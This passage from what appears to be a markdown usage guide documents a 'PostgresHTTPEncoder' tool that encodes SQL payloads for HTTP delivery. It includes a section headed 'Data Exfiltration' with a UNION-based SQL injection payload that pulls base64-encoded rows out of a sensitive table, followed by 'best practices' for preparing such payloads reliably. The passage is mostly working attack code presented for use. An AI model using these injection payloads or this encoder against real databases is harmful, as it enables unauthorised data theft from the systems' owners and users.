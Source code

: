 ```python
encoder = PostgresHTTPEncoder()
encoded = encoder.encode(payload)
# Ready for HTTP transmission
```

### Data Exfiltration
```python
# Data exfiltration payload
payload = """
' UNION ALL SELECT NULL,CAST(data as varchar) 
FROM (
    SELECT encode(content::bytea, 'base64') as data 
    FROM sensitive_table
) t WHERE '1'='1
"""

encoder = PostgresHTTPEncoder()
encoded = encoder.encode(payload)
```

## Best Practices

1. **Payload Validation**
   ```python
   # Always verify encoding/decoding roundtrip
   encoder = PostgresHTTPEncoder()
   payload = "SELECT * FROM users"
   encoded = encoder.encode(payload)
   decoded = encoder.decode(encoded)
   assert payload == decoded, "Encoding/decoding mismatch"
   ```

2. **Error Handling**
   ```python
   def safe_encode(payload: str) -> str:
       try:
           encoder = PostgresHTTPEncoder()
           return encoder.encode(payload)
       except Exception as e:
           print(f"Encoding error: {str(e)}")
           return None
   ```

3. **Character Set Handling**
   ```python
   # Handle different character sets
   encoder = PostgresHTTPEncoder()
   payload = "SELECT * FROM users WHERE name = 'güest'"
   encoded = encoder.encode(payload)
   ```

## Common Issues and Solutions
